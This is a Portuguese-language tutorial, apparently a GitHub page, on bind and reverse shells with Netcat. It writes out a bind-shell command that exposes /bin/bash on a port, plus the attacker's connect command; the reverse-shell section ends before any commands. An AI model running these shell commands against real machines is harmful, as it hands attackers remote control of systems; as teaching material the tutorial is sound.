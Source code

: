 Numa shell bind, um atacante precisa conectar-se ao computador de destino e executar comandos no computador alvo. Além disso, o alvo deve possuir uma porta aberta, a qual o atacante vai estabelecer a conexão. Para executar uma shell bind, o atacante deve ter o endereço IP da vítima para ter acesso ao computador alvo.

Para aplicarmos a técnica de bind shell devemos utilizar os seguintes passos:

1. Precisamos 'bindar' a shell à porta aberta do alvo, utilizando o Netcat.

2. Precisamos nos conetar a partir da máquina de ataque ao host alvo na porta previamente aberta.

3. Emitir comandos no host alvo a partir da máquina de ataque.

### Exemplo de Bind Shell

1. Precisamos 'bindar' a shell à porta aberta do alvo, utilizando o Netcat.
   
   ```bash
   nc -lvp 1337 -e /bin/bash
   ```
   
   Obs: A escolha da porta arbitrária, recomenda-se usar acima uma porta acima da 1024 para não escolhermos uma porta que precise de privilégios
   
   Para mais informações sobre portas -
   
   [unix - Why are ports below 1024 privileged? - Stack Overflow](https://stackoverflow.com/questions/10182798/why-are-ports-below-1024-privileged)

2. Precisamos nos conetar a partir da máquina de ataque ao host alvo na porta previamente aberta.
   
   ```bash
   nc 192.168.0.19 1337
   ```
   
   obs: O ip `192.168.0.19` é o ip local da máquina alvo, para descobrir o ip local utilizar o comando `ipconfig`
   
   A partir de agora é possivel utilizar comandos na máquina alvo a partir da máquina de ataque.

3. Emitir comandos no host alvo a partir da máquina de ataque.
   
   ```bash
   pwd 
   /home/kali
   ```

## Reverse Shell

Na reverse shell o atacante deve primeiro iniciar o servidor na sua máquina, enquanto a máquina alvo terá de agir como um cliente que se liga ao servidor fornecido pelo atacante. Após estabelecer a conexão, o atacante pode obter acesso à shell do computador alvo.

Para aplicarmos a técnica de reverse shell devemos utilizar os seguintes passos:

1. Setar a maquina de ataque como ouvinte via Netcat.

2. Conectar o host (alvo) ao ouvinte Netcat.

3. Emitir comandos sobre o host alvo a partir da máquina de ataque.
